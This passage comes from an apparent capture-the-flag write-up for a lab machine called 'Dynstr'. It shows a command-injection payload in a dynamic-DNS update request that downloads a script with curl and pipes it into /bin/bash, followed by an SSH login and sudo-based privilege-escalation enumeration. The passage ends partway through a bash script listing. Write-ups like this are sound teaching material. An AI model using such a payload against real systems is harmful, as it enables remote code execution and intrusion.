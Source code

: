 Send the request to download the file from the attacker and pipe it into `/bin/bash`:

```http
GET /nic/update?hostname="$(ip=$(echo+MTAuMTAuMTQuMTMw+|+base64+-d);curl+http://$ip/nsupdate+|+/bin/bash+2>%261);.dnsalias.htb HTTP/1.1
Host: dyna.htb
Authorization: Basic ZHluYWRuczpzbmRhbnlk
User-Agent: curl/7.74.0
Accept: */*
Connection: close
```

SSH into the target as `bindmgr`:

```bash
$ ssh -i bindmgr-id-ssh bindmgr@dyna.htb
Last login: Fri Sep 24 04:57:09 2021 from tgihf.infra.dyna.htb
bindmgr@dynstr:~$ id
uid=1001(bindmgr) gid=1001(bindmgr) groups=1001(bindmgr)
```

---

## Privilege Escalation

### Enumeration

```bash
$ sudo -l
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
Matching Defaults entries for bindmgr on dynstr:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bindmgr may run the following commands on dynstr:
    (ALL) NOPASSWD: /usr/local/bin/bindmgr.sh
```

`bindmgr` is capable of running `/usr/local/bin/bindmgr.sh` with elevated privileges. The script:

```bash
$ cat /usr/local/bin/bindmgr.sh
#!/usr/bin/bash

# This script generates named.conf.bindmgr to workaround the problem
# that bind/named can only include single files but no directories.
#
# It creates a named.conf.bindmgr file in /etc/bind that can be included
# from named.conf.local (or others) and will include all files from the
# directory /etc/bin/named.bindmgr.
#
# NOTE: The script is work in progress. For now bind is not including
#       named.conf.bindmgr. 
#
# TODO: Currently the script is only adding files to the directory but
#       not deleting them. As we generate the list of files to be included
#       from the source directory they won't be included anyway.

BINDMGR_CONF=/etc/bind/named.conf.bindmgr
BINDMGR_DIR=/etc/bind/named.bindmgr

indent() { sed 's/^/    /'; }

# Check versioning (.version)
echo "[+] Running $0 to stage new configuration from $PWD."
if [[ ! -f .version ]] ; then
    echo "[-] ERROR: Check versioning. Exiting."
```